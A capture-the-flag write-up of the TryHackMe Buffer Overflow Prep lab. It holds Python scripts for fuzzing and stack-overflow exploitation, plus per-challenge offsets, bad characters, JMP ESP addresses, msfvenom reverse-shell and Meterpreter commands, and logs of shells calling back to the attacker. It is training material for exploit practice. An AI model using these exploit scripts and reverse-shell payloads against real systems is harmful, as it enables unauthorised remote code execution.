










# Buffer Overflow Prep

**Date:** 29, May, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/bufferoverflowprep) to go to the TryHackMe room.

- Connect to the machine using RDP:

```bash
$ xfreerdp /u:admin /p:password /v:MACHINE_IP /workarea /cert:ignore
```

- Here **spiking** is not necessary, because we know that all the commands are vulnerable.

---

## Scripts

### Fuzzing

```py
#! /usr/bin/python3

import socket, sys, time

ip = "IP_ADDRESS"
port = 1337
timeout = 5

prefix = b'OVERFLOW1 '
payload = [
    prefix,
    b'A'*100,
]

while True:
        try:
                s = socket.socket()
                s.settimeout(timeout)
                s.connect((ip, port))
                s.recv(1024)
                s.send(b''.join(payload))
                print('Fuzzing with {} bytes'.format(len(payload[1])))
                s.recv(1024)
                s.close()
        except:
                print('Fuzzzing crashed at {} bytes'.format(len(payload[1])))
                exit(0)

        payload[1] += b'A'*100
        time.sleep(1)
```

### Finding Offset & overwriting EIP

- Generate pattern using **pattern_create**:

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <LENGTH>
```

- Find offset using **pattern_offset**:

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <LENGTH> -q <EIP_VALUE>
```


```py
#! /usr/bin/python3

import socket, sys, time

ip = "IP_ADDRESS"
port = 1337
timeout = 5

prefix = b'OVERFLOW1 '
pattern = b'PATTERN_GOES_HERE'


payload = [
    prefix,
    pattern,
]

payload = b''.join(payload)

try:
        s = socket.socket()
        s.settimeout(timeout)
        s.connect((ip, port))
        s.recv(1024)
        s.send(payload)
        print('Fuzzing with {} bytes'.format(len(payload) - len(prefix)))
        s.recv(1024)
        s.close()
except:
        print('Fuzzing crashed at {} bytes'.format(len(payload) - len(prefix)))
        exit(0)
```

### Finding Bad chars

```py
#! /usr/bin/python3

import socket, sys, time
import struct

ip = "IP_ADDRESS"
port = 1337
timeout = 5

prefix = b'OVERFLOW1 '
offset = 2003

# 4 Bytes EIP
eip = b'B' * 4

# Generate Bad characters from 1 to 255 (256 will be exculded by range function)
badchars = b''.join([struct.pack('<B', x) for x in range(1,256)])

payload = [
    prefix,
    b'A' * offset,
    eip,
    badchars,
]

payload = b''.join(payload)

try:
        s = socket.socket()
        s.settimeout(timeout)
        s.connect((ip, port))
        s.recv(1024)
        s.send(payload)
        s.recv(1024)
        s.close()
except:
        print('Fuzzing crashed at {} bytes'.format(len(payload) - len(prefix) - len(eip) - len(badchars)))
```


### Finding Right Module

```py
#! /usr/bin/python3

import socket, sys, time
import struct

ip = "IP_ADDRESS"
port = 1337
timeout = 5

prefix = b'OVERFLOW1 '
offset = 2003

# 4 Bytes EIP
eip = b''.join([struct.pack('<I', 0x<ADDRESS_GOES_HERE>)])

payload = [
    prefix,
    b'A' * offset,
    eip,
]

payload = b''.join(payload)

try:
        s = socket.socket()
        s.settimeout(timeout)
        s.connect((ip, port))
        s.recv(1024)
        s.send(payload)
        s.recv(1024)
        s.close()
except:
        print('Fuzzing crashed at {} bytes'.format(len(payload) - len(prefix) - len(eip)))
```

### Shell code & Shell Access

```py
#! /usr/bin/python3

import socket, sys, time
import struct

ip = "IP_ADDRESS"
port = 1337
timeout = 5

prefix = b'OVERFLOW1 '
offset = 1337

# 4 Bytes EIP
eip = b''.join([struct.pack('<I', 0x625011af)])

nop_sled = b'\x90' * 32

buf =  b""  #SHELL CODE

shellcode = buf

payload = [
    prefix,
    b'A' * offset,
    eip,
    nop_sled,
    buf
]

payload = b''.join(payload)

try:
        s = socket.socket()
        s.settimeout(timeout)
        s.connect((ip, port))
        s.recv(1024)
        s.send(payload)
        s.recv(1024)
        s.close()
except:
        print('Fuzzing crashed at {} bytes'.format(len(payload) - len(prefix) - len(eip) - len(nop_sled) - len(buf)))
```


---

## OVERFLOW 1

### Fuzzing

- Crash occurred at 2000 bytes

```bash
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
Fuzzing with 1800 bytes
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes
Fuzzzing crashed at 2000 bytes
```

### Finding Offset & overwriting EIP

- Generate Pattern of length 2500
- EIP VALUE = 6F43396E
- Exact match at offset 1978


### Finding Bad chars

- Find the bad chars using mona: `\x00\x07\x2e\xa0`



### Finding Right Module

- Find the right module using: `!mona modules`
- Find the jmp esp within that module excluding the bad chars: `!mona jmp -r esp -m essfunc.dll -cpb "\x00\x07\x2e\xa0"`
- JMP ESP address: `0x625011F7`

### Shell code & Shell Access

- Generate shell code using: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1234 EXITFUNC=thread -f py -b "\x00\x07\x2e\xa0"`
- Don't forget to add **nop sled**.
- Run the exploit & nc:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.26.89] 49242
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami   
whoami
oscp-bof-prep\admin
```

---

## OVERFLOW 2

### Fuzzing

```bash
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzzing crashed at 700 bytes
```


### Finding Offset & overwriting EIP

- Generate Pattern of length 1200
- EIP VALUE = 76413176
- Exact match at offset 634

### Finding Bad chars

- Find the bad chars manually: `\x00\x23\x3c\x83\xba`




### Finding Right Module

- Find the right module using: `!mona modules`
- Find the jmp esp within that module excluding the bad chars: `!mona jmp -r esp -m essfunc.dll -cpb "\x00\x23\x3c\x83\xba"`
- JMP ESP address: `0x625011BB`

### Shell code & Shell Access

- Generate shell code using: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1234 EXITFUNC=thread -f py -b "\x00\x23\x3c\x83\xba"`
- Don't forget to add **nop sled**.
- Run the exploit & nc:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.26.89] 49276
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

---

## OVERFLOW 3

### Fuzzing

```bash
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzzing crashed at 1300 bytes
```

### Finding Offset & overwriting EIP

- Generate Pattern of length 1800
- EIP VALUE = 35714234
- Exact match at offset 1274
- Found using: `mona findmsp -distance <pattern length>`

```bash
 Message=    EIP contains normal pattern : 0x35714234 (offset 1274)
```

### Finding Bad chars

- Find the bad chars using mona: `\x00\x11\x40\x5f\xb8\xee`




### Finding Right Module

- Find the right module using: `!mona modules`
- Find the jmp esp within that module excluding the bad chars: `!mona jmp -r esp -m essfunc.dll -cpp "\x00\x11\x40\x5f\xb8\xee"`
- JMP ESP address: `62501203` (Only two addresses were available!)

### Shell code & Shell Access

- Generate shell code using: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -b "\x00\x11\x40\x5f\xb8\xee" -f py`
- **Note:** Meterpreter shell is larger in size
- Don't forget to add **nop sled**.
- Run the exploit & `multi/handler` in **msfconsole**:

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.17.7.91:1234 
[*] Sending stage (175174 bytes) to 10.10.26.89

[*] Meterpreter session 1 opened (10.17.7.91:1234 -> 10.10.26.89:49284) at 2021-05-29 21:47:33 +0530

meterpreter > shell
Process 1220 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

---

## OVERFLOW 4

### Fuzzing

```bash
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
Fuzzing with 1800 bytes
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes
Fuzzing with 2100 bytes
Fuzzzing crashed at 2100 bytes
```

### Finding Offset & overwriting EIP

- Generate Pattern of length 2600
- EIP VALUE = 005c394a
- Exact match at offset 2026

### Finding Bad chars

- Find the bad chars using mona: `\x00\xa9\xcd\xd4`




### Finding Right Module

- Find the right module using: `!mona modules`
- Find the jmp esp within that module excluding the bad chars: `!mona jmp -r esp -m essfunc.dll -cpb "\x00\xa9\xcd\xd4"`
- JMP ESP address: `625011eb`

### Shell code & Shell Access

- Generate shell code using: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -b "\x00\xa9\xcd\xd4" -f p`
- Don't forget to add **nop sled**.
- Run the exploit & `msfconsole multi/handler`:

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.17.7.91:1234 
[*] Sending stage (175174 bytes) to 10.10.26.89
[*] Meterpreter session 2 opened (10.17.7.91:1234 -> 10.10.26.89:49290) at 2021-05-29 22:10:09 +0530

meterpreter > shell
Process 3768 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

---

## OVERFLOW 5

### Fuzzing

```bash
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzzing crashed at 400 bytes
```

### Finding Offset & overwriting EIP

- Generate Pattern of 1000
- EIP VALUE = 356b4134
- Exact match at offset 314 

### Finding Bad chars

- Find the bad chars manually: `\x00\x16\x2f\xf4\xfd`



### Finding Right Module

- Find the right module using: `!mona modules`
- Find the jmp esp within that module excluding the bad chars: `!mona jmp -r esp -m essfunc.dll -cpb "\x00\x16\x2f\xf4\xfd"`
- JMP ESP address: `625011d3`

### Shell code & Shell Access

- Generate shell code using: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1234 EXITFUNC=thread -f py -b "\x00\x16\x2f\xf4\xfd"`
- Don't forget to add **nop sled**.
- Run the exploit & nc:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.26.89] 49300
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

---

## OVERFLOW 6

### Fuzzing

```bash
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzzing crashed at 1100 bytes
```

### Finding Offset & overwriting EIP

- Generate Pattern of 1600
- EIP VALUE = 35694234
- Exact match at offset 1034

### Finding Bad chars

- Find the bad chars using mona: `\x00\x08\x2c\xad`




### Finding Right Module

- Find the right module using: `!mona modules`
- Find the jmp esp within that module excluding the bad chars: `!mona jmp -r esp -m essfunc.dll -cpb "\x00\x08\x2c\xad"`
- JMP ESP address: `625011f7`

### Shell code & Shell Access

- Generate shell code using: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1234 EXITFUNC=thread -f py -b "\x00\x08\x2c\xad"`
- Don't forget to add **nop sled**.
- Run the exploit & nc:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.26.89] 49304
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

---

## OVERFLOW 7

### Fuzzing

```bash
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzzing crashed at 1400 bytes
```

### Finding Offset & overwriting EIP

- Generate Pattern of 2000
- EIP VALUE = 72423572
- Exact match at offset 1306

### Finding Bad chars

- Find the bad chars manually: `\x00\x8c\xae\xbe\xfc`




### Finding Right Module

- Find the right module using: `!mona modules`
- Find the jmp esp within that module excluding the bad chars: `!mona jmp -r esp -m essfunc.dll -cpb "\x00\x8c\xae\xbe\xfc"`
- JMP ESP address: `62501203`

### Shell code & Shell Access

- Generate shell code using: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -f py -b "\x00\x8c\xae\xbe\xfc"`
- Don't forget to add **nop sled**.
- Run the exploit & multi/handler:

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.17.7.91:1234 
[*] Sending stage (175174 bytes) to 10.10.26.89
[*] Meterpreter session 1 opened (10.17.7.91:1234 -> 10.10.26.89:49322) at 2021-05-29 23:40:43 +0530

meterpreter > shell
Process 2584 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

---

## OVERFLOW 8

### Fuzzing

```bash
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
Fuzzing with 1800 bytes
Fuzzzing crashed at 1800 bytes
```

### Finding Offset & overwriting EIP

- Generate Pattern of 2300
- EIP VALUE = 68433568
- Exact match at offset 1786

### Finding Bad chars

- Find the bad chars using mona: `\x00\x1d\x2e\xc7\xee`




### Finding Right Module

- Find the right module using: `!mona modules`
- Find the jmp esp within that module excluding the bad chars: `!mona jmp -r esp -m essfunc.dll -cpb "\x00\x1d\x2e\xc7\xee"`
- JMP ESP address: `62501205`

### Shell code & Shell Access

- Generate shell code using: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -f py -b "\x00\x1d\x2e\xc7\xee"`
- Don't forget to add **nop sled**.
- Run the exploit & multi/handler:

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.17.7.91:1234 
[*] Sending stage (175174 bytes) to 10.10.26.89
[*] Meterpreter session 2 opened (10.17.7.91:1234 -> 10.10.26.89:49324) at 2021-05-29 23:55:17 +0530

meterpreter > shell
Process 748 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

